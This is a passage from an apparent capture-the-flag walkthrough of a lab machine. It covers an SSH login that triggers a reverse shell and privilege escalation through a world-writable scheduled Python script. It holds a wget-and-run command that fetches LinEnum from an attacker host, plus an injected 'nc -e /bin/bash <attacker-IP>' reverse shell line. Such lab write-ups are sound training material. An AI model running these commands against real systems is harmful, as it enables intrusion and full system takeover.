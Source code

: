 Upon logging in via SSH, our reverse shell kicks off successfully

```bash
ssh mindy@10.10.10.51
```

![Untitled](Untitled%207.png)

Now, we can grab the user flag

![Untitled](Untitled%208.png)

---

# Privilege Escalation

## Local enumeration

I transferred over LinEnum to the target to begin enumeration for potential PrivEsc vectors

```bash
#on attacker
#navigate to directory with LinEnum.sh
python3 -m http.server 80

# on victim
wget http://<attacker-ip>/LinEnum.sh;chmod +x LinEnum.sh;./LinEnum.sh
```

LinEnum pointed out a file called `tmp.py` located in the `/opt` directory

## PrivEsc vector

This file appears to be world read, write, and executable. When viewing the script, it appears it runs on a set interval when a file is placed in the `/tmp` directory

I updated the code to the below

```bash
#!/usr/bin/env python
import os
import sys
try:
	os.system('nc -e /bin/bash <attacker-IP> 9001')
except:
	sys.exit()
```
